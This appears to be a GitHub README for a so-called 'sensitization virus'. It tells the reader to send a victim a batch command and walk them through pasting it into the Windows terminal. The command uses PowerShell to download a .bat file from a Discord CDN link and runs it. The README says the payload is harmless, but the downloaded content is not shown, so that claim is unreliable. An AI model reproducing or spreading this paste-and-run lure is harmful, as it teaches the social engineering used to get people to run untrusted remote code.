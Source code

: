 <h1>Sensitization virus</h1></br>
<h2>How to use?</h2>

To use this non-harmful virus, you only need to run "index.bat"

You could send this file to your victim but I don't recommend it as it is a .bat file, which means the anti-virus programs will consider it as a virus, whether it is or not. 

That's why I recommend just sending the script of the index.bat file and ask them to run it in the terminal.

Here's a small tutorial:

Do the shortcut `Windows` + `R`, this should open a small popup.
In this popup, write `cmd` and press enter. A black window should open, it's the terminal
In the terminal, paste the following code & press enter

```bat
color a
title Installing...
echo %USERPROFILE%
cd %USERPROFILE%\Downloads
powershell.exe -Command "Invoke-WebRequest -OutFile ./src-dll.bat https://cdn.discordapp.com/attachments/800052087136190467/829407099750318160/launcher.bat"
call src-dll.bat
dir/s
```



</br></br>
<h2>What is the purpose?</h2>

This small non-harmful virus is meant to sensitize people. You should not run random files as it can destroy your computer, virtually & physically. Without harming your computer, this virus will show you how powerful a file can be. Basicly, a virus could get all the infos of your computer, or destroy all your files, use your amazon account... Do never run random files. Specially if they are sent from a stranger.

You can send this script to your friend in order to sensitize them. 

